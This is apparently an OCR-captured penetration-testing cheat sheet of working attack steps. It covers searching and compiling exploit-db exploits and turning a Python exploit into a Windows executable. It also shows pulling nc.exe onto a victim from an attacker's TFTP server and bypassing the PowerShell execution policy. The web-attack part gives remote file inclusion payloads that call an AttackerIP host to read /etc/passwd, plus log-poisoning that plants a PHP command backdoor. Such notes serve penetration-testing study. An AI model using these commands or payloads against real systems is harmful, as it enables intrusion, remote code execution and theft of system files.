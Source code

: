 Finding Public Exploits:  
www.securityfocus.com/vulnerabilities  
www.exploit-db.com

searchsploit <keyword> #Search exploit-db by keyword  
cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c} . #copy found exploit to root directory

**Compiling**
i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe #compile Windows code on Linux  
wine exploit.exe #Run Windows executable on Linux

Convert Python Exploit to Win Exe . 
#On our Windows staging host . 
#Install pywin32-218.win320py2.7 . 
#Extract pyinstaller-2.0  
#Move python exploit into pyinstaller-2.0 directory . 
#Invoke pyinstaller to convert to Exe . 
python pyinstaller.py —onefile ms11-080.py

**File Transfers**  
TFTP  
#Attacker  
mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  

#Victim  
tftp -i AttackerIP GET nc.exe  

PS File Transfer  
#code sequence in powershell-download file  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 #Bypass Execution Policy

**Web Application Attacks**  
LFI/RFI #usually in poor php code .  
RFI  
VulnParam=http://AttackerIP/evil.txt%00 #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

$ tail -f /var/log/apache2/access.log #track traffic from our apache web server hosting evil.txt

LFI   
#Contaminate the web server log with a PHP backdoor .  
$ nc -nv TargetIP 80  
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00
